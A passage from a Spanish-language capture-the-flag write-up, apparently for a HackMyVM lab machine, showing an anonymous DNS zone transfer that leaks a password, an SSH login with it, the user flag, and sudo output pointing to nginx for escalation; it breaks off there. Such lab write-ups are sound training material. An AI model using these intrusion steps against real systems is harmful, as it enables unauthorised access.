 Veremos que nos muestra el servidor principal `DNS` de dicho dominio llamado `ns1`, con esta informacion podremos enumerar de forma mas detallada para ver si encontramos algo util.

```shell
dig @<IP> webmaster.hmv axfr
```

Info:

```
; <<>> DiG 9.20.4-4-Debian <<>> @192.168.5.10 webmaster.hmv axfr
; (1 server found)
;; global options: +cmd
webmaster.hmv.          604800  IN      SOA     ns1.webmaster.hmv. root.webmaster.hmv. 2 604800 86400 2419200 604800
webmaster.hmv.          604800  IN      NS      ns1.webmaster.hmv.
ftp.webmaster.hmv.      604800  IN      CNAME   www.webmaster.hmv.
john.webmaster.hmv.     604800  IN      TXT     "Myhiddenpazzword"
mail.webmaster.hmv.     604800  IN      A       192.168.0.12
ns1.webmaster.hmv.      604800  IN      A       127.0.0.1
www.webmaster.hmv.      604800  IN      A       192.168.0.11
webmaster.hmv.          604800  IN      SOA     ns1.webmaster.hmv. root.webmaster.hmv. 2 604800 86400 2419200 604800
;; Query time: 16 msec
;; SERVER: 192.168.5.10#53(192.168.5.10) (TCP)
;; WHEN: Fri May 09 14:06:30 EDT 2025
;; XFR size: 8 records (messages 1, bytes 274)
```

Vemos que hemos conseguido informacion de la `Zona DNS` de forma anonima, es una vulnerabilidad muy critica, pero la cual con ella hemos obtenido las posibles credenciales del usuario `john`, vamos a probarlas por `SSH`.

### SSH

```shell
ssh john@<IP>
```

Metemos como contraseña `Myhiddenpazzword` y veremos que estamos dentro, por lo que leeremos la `flag` del usuario.

> user.txt

```
HMVdnsyo
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for john on webmaster:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User john may run the following commands on webmaster:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```
